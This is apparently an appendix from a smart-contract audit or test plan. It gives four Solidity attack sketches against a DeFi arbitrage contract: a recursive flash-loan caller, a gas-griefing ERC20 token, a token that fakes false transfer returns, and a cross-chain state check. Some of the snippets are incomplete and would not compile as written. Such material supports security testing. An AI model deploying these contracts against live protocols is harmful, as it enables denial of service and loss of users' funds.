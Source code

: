 ### A. Flash Loan Recursion Exhaustion
```solidity
contract RecursionAttacker {
    uint256 public recursionDepth = 0;
    
    function attackRecursion(address target, uint256 amount) external {
        if (recursionDepth < 100) {
            recursionDepth++;
            target.initiateArbitrage(BUSD, amount, 500);
        }
    }
}
```

### B. Gas Griefing via Malicious Tokens
```solidity
contract GasGriefingToken is ERC20 {
    mapping(address => uint256) public expensiveStorage;
    
    function transfer(address to, uint256 amount) public override returns (bool) {
        // Expensive operation on every transfer
        for (uint i = 0; i < 1000; i++) {
            expensiveStorage[to] = i;
        }
        return super.transfer(to, amount);
    }
}
```

### C. ERC20 Return Value Manipulation
```solidity
contract FakeReturnToken is ERC20 {
    bool public shouldReturnFalse = false;
    
    function transfer(address to, uint256 amount) public override returns (bool) {
        return shouldReturnFalse ? false : super.transfer(to, amount);
    }
}
```

### D. Cross-Chain State Inconsistencies
```solidity
contract CrossChainStateTest {
    mapping(uint256 => uint256) public chainStates;
    
    function testCrossChainValidation() external view returns (bool) {
        return chainStates[1] != chainStates[137]; // Ethereum vs Polygon
    }
}
```

---
